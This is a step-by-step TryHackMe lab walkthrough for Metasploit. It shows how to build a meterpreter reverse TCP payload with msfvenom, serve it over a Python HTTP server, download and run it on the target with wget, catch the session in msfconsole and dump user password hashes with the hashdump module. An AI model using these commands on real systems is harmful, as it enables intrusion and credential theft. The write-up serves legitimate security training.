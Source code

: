 ```yaml
---
description: https://tryhackme.com/room/metasploitexploitation task 6
---
```


# Msfvenom

## This is a step by step for a task 6 Metasploit: Exploitation - Msfvenom

## Step  1 -  Accessing the Target Machine

We're given credentials to ssh into the target machine. As you can see in the picture, I have 4 tabs open ( CTRL+SHIFT+T to open a new tab). I'll always give the code to execute, a comment explaining what each command does and a screenshot where I'm doing the same thing. I recommend having 4 named and coloured tabs like I do. Imho it makes the whole process easier to follow. Any text after # is a comment and is grey

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong># In the Target Machine tab
</strong><strong># Use command ssh to connect to the target machine
</strong>ssh murphy@10.10.148.173
# When prompted, type yes to continue connecting
yes
# Enter password 
1q2w3e4r
# Type sudo su to get a root shell, this will give you privileges
sudo su
<strong># Enter password again
</strong>1q2w3e4r
</code></pre>

<figure><img src="../../../.gitbook/assets/step1.JPG" alt=""><figcaption><p>step 1 - Target Machine tab</p></figcaption></figure>

## Step 2 - Creating a reverse TCP shell Payload

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"># In the Attack Machine tab (green)
<strong># Check port 7777 is not being used by any service. This isn't necessary, it's just a precaution
</strong>lsof -i :7777 # If port isn't used, nothing will happen. 
# Create a reverse_tcp payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.21.156.82 LPORT=7777 -f elf > rev_shell.elf
</code></pre>

<figure><img src="../../../.gitbook/assets/step2.JPG" alt=""><figcaption><p>step 2 - Attack Machine</p></figcaption></figure>

## Step 3 - Creating a server

In the Server tab we start a simple python http server

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong>#In the Server tab
</strong><strong>#check port 9000 is not in use. This isn't necessary, it's just a precaution
</strong>lsof -i :9000 # If port isn't used, nothing will happen. 
#start the server with this command
python3 -m http.server 9000
</code></pre>

<figure><img src="../../../.gitbook/assets/step3.JPG" alt=""><figcaption><p>step 3 - Server Tab</p></figcaption></figure>

## Step 4 - Transfering the payload

Download the payload from the server you set up in the last step

{% code lineNumbers="true" %}
```bash
# In the Target Machine tab
# Download the payload in the Target Machine from the server using this command
wget http://10.21.156.82:9000/rev_shell.elf
# Use the chmod command to assign executable permissions
chmod +x rev_shell.elf
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/step4 (1).JPG" alt=""><figcaption><p>step 4 - Target Machine tab</p></figcaption></figure>

In the Server tab, you'll see the successful GET request. No need to do anything here, it's just letting you know download was successfull.

<figure><img src="../../../.gitbook/assets/step4_1.JPG" alt=""><figcaption><p>step 4 - Server tab</p></figcaption></figure>

## Step 5  - Setting up a Payload Handler

In the msfconsole we'll configure and run the payload handler

{% code lineNumbers="true" %}
```bash
# In the Msfconsole tab
# Start Metasploit Console
msfconsole
use linux/x86/meterpreter/reverse_tcp
show options
set lhost 10.21.156.82
set lport 7777
exploit
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/step5.JPG" alt=""><figcaption><p>step 5 - Msfconsole tab</p></figcaption></figure>

## Step 6 - Executing the Payload

{% code lineNumbers="true" %}
```bash
# In the Target Machine tab
# Execute the payload
./rev_shell.elf
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/step6.JPG" alt=""><figcaption><p>Step 6 - Target Machine tab</p></figcaption></figure>

In the Msfconsole tab we select the linux/gather/hashdump module, configure it and run it.

<pre class="language-bash" data-line-numbers><code class="lang-bash"><strong># In the Msfconsole tab
</strong><strong># Use post exploitation module to dump hashes of users on the system
</strong><strong>use linux/gather/hashdump
</strong><strong># See the options
</strong>show options
# Check for session id
sessions
# Set the correct session id
set session 1
# Run it
exploit
# See the usernames:hashes
</code></pre>

<figure><img src="../../../.gitbook/assets/step7.JPG" alt=""><figcaption><p>Step 6 - Msfconsole tab</p></figcaption></figure>

## Step 7 - Success

We're done





